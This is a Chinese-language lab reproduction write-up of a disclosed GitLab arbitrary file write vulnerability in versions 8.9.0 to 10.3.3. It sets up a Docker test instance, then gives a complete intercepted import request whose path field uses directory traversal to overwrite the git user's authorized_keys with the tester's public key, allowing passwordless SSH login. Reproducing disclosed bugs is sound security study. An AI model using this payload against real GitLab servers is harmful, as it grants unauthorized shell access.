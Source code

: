# Gitlab的任意文件写入

影响版本：

GitLab CE and EE 8.9.0 - 9.5.10
GitLab CE and EE 10.0.0 - 10.1.5
GitLab CE and EE 10.2.0 - 10.2.5
GitLab CE and EE 10.3.0 - 10.3.3

[hackerone 漏洞地址](https://hackerone.com/reports/298873)
[先知](https://xz.aliyun.com/t/2366?from=timeline&isappinstalled=0)

## 复现方法
1. docker run -d --name gitlab -p 80:80 -p 443:443 -p 2222:22  gitlab/gitlab-ce:10.2.4-ce.0

2. 修改配置文件
docker exec -it gitlab /bin/bash
nano /etc/gitlab/gitlab.rb

# 去掉gitlab的注释并修改对应ip
external_url '192.168.1.100'
#重新载入配置文件
gitlab-ctl reconfigure
# 访问对应ip，第一次需要设置密码，并新建用户
http://192.168.1.100/

3. 登录gitlab->创建项目->Import project->GitLab Import->选择文件

4. 然后本机的ssh公钥（注意是公钥）

5. 点击import project 后，burp拦住修改path的值为/../../../../../../../../../var/opt/gitlab/.ssh/authorized_keys
数据包如下：
POST /import/gitlab_project HTTP/1.1
Host: 192.168.1.100
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------20787582420424
Content-Length: 1214
Referer: http://192.168.1.100/import/gitlab_project/new?namespace_id=2&path=
Cookie: _gitlab_session=9c5f21dbfe98d90b1d992e1c9907584c; sidebar_collapsed=false
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------20787582420424
Content-Disposition: form-data; name="utf8"

â
-----------------------------20787582420424
Content-Disposition: form-data; name="authenticity_token"

JoWtToPxTJL6RVASaprnR1hRqEGARnbLkA06favQLxQ7Y7YtyqfE9+JsbV/NAwy7XAdTuzgRsxJ/Kl1hH9V6xA==
-----------------------------20787582420424
Content-Disposition: form-data; name="namespace_id"

{:value=>2}
-----------------------------20787582420424
Content-Disposition: form-data; name="path"

ssh/../../../../../../../../../var/opt/gitlab/.ssh/authorized_keys
-----------------------------20787582420424
Content-Disposition: form-data; name="namespace_id"

2
-----------------------------20787582420424
Content-Disposition: form-data; name="file"; filename="id_rsa.pub"
Content-Type: application/vnd.ms-publisher

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+McaRvLdnm+u30cACV4ftHJUESNVNV/VNlwm5xST343cFQODjBua5ffpCgDIejiVhyz9BzMmmynN5tnN6JQlx4SwSGkuR3+wzbJ8XKJNHLpOeZ2Xzw+UA9duDinDQHUklFwDmjH7Pywy6kRurIWXTsdupkLrHobEjSjrwEkqvLUnRi1EA/nU5es+kEz6c04jDUrZoGaj5GiI7VYReX+d9Pm524H9KfBpFIZ27yaWs1lR9b+dXjbXnUdysKdWTQcwy1tv+xhEbwF9m/PQajAEPPl95u/qrGPMqT0l08dC6H9o50i9Yn0Yf3t946g4QjGBs+GZgaNoLda8d5U5S8XLz BF@DESKTOP-4UM7GF4

-----------------------------20787582420424--

6. 尝试git用户ssh免密登录